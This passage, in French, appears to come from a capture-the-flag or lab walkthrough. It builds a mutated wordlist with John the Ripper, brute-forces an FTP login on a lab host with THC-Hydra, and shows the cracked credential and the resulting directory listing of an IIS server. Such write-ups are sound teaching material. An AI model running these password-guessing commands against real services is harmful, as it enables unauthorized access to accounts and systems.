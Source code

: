 Puis on génère une seconde wordlist basée sur celle-ci en appliquant des mutations via John The Ripper :  

```bash
/opt/jtr/john --rules --wordlist=dico.txt --stdout > candidates.txt
```

On lance une attaque brute-force à l'aide de *THC-Hydra*. Après avoir testé différents logins (*bobby*, *admin*...) on trouve finalement le bon password pour l'utilisateur *bob* :

```plain
./hydra -l bob -P ../candidates.txt -t 1 ftp://192.168.1.11/ 
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2014-03-25 21:16:08
[DATA] 1 task, 1 server, 835 login tries (l:1/p:835), ~835 tries per task
[DATA] attacking service ftp on port 21
[21][ftp] host: 192.168.1.11   login: bob   password: Matrix
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-03-25 21:16:08
```

Attention le serveur FTP gère très mal la surcharge et avec le nombre de threads par défaut de *Hydra* il retournait souvent une erreur 421.  

```plain
> ftp 192.168.1.11
Connected to 192.168.1.11.
220 Microsoft FTP Service
Name (192.168.1.11): bob
331 Password required for bob.
Password: 
230 User bob logged in.
Remote system type is Windows_NT.
ftp> ls
227 Entering Passive Mode (192,168,1,11,4,3).
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls -alR
200 PORT command successful.
150 Opening ASCII mode data connection for /bin/ls.
03-25-14  06:56PM       <:DIR>          AdminScripts
03-25-14  06:56PM       <:DIR>          ftproot
03-25-14  06:56PM       <:DIR>          iissamples
03-25-14  06:56PM       <:DIR>          Scripts
03-25-14  06:56PM       <:DIR>          wwwroot

.\AdminScripts:
04-02-07  09:40AM                85813 adsutil.vbs
07-21-01  02:21PM                 4490 chaccess.vbs
07-21-01  02:21PM                 2599 contftp.vbs
07-21-01  02:21PM                 2623 contsrv.vbs
07-21-01  02:21PM                 2596 contweb.vbs
07-21-01  02:21PM                 5017 dispnode.vbs
07-21-01  02:21PM                 2550 disptree.vbs
07-21-01  02:21PM                 6258 findweb.vbs
07-21-01  02:21PM                 7186 mkwebdir.vbs
07-21-01  02:21PM                 2591 pauseftp.vbs
07-21-01  02:21PM                 2615 pausesrv.vbs
07-21-01  02:21PM                 2588 pauseweb.vbs
07-21-01  02:21PM                 2593 startftp.vbs
07-21-01  02:21PM                 2617 startsrv.vbs
07-21-01  02:21PM                 2590 startweb.vbs
07-21-01  02:21PM                 2584 stopftp.vbs
07-21-01  02:21PM                 2608 stopsrv.vbs
```